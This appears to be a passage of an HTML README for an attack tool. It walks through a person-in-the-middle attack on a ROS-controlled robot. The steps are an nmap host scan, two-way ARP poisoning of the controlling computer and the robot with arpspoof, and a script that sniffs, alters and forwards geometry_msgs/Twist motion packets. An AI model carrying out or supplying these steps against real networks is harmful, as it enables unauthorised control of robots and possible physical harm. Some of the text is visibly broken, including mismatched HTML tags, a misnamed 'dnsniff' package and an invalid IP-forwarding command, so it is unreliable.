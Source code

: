 <section>
    <h2>#Pre-requisites</h1>
    <article>
        The following software is required:
        <ul>
            <li>Python (preference >= 3.8)</li>
            <li>Scapy (2.4.5) -> <code>$ sudo apt install scapy && python -m pip install scapy</code> </li>
            <li>arpspoof (2.4) -> <code>$ sudo apt install dnsniff</code></li>
            <li>Turn off IP forwarding, if enabled -> <code>$ sudo net.ipv4.ip_forward=0</code></li>
        </ul>
    <article>
</secion>
<section>
    <h2>#Usage</h2>
    <article>
        The first step is to scan the network to find the target computers information. Nmap is a good tool for this (<code>$ nmap -sn 192.168.1.0/24</code>). Once you have the IP addresses of the computers, you can begin.<br>
        Firstly, you need to poison the ARP tables of both the target computer (TARGET_A) and robot (TARGET_B). To do this, run the following commands:<br>
        <code>$ sudo arpspoof -t TARGET_A_IP TARGET_B_IP</code> <br> 
        <code>$ sudo arpspoof -t TARGET_B_IP TARGET_A_IP</code> <br>
        If you don't have the MAC addresses of the computers, you can get them at this point using <code>$ arp</code>.<br>
        Next fill in the required information in the script <code>geometry_msgs_twist_pitm.py</code>.<br>
        Finally, you can run the script <code>geometry_msgs_twist_pitm.py</code> to sniff, manipulate, and forward packets.
    </article>
</section>
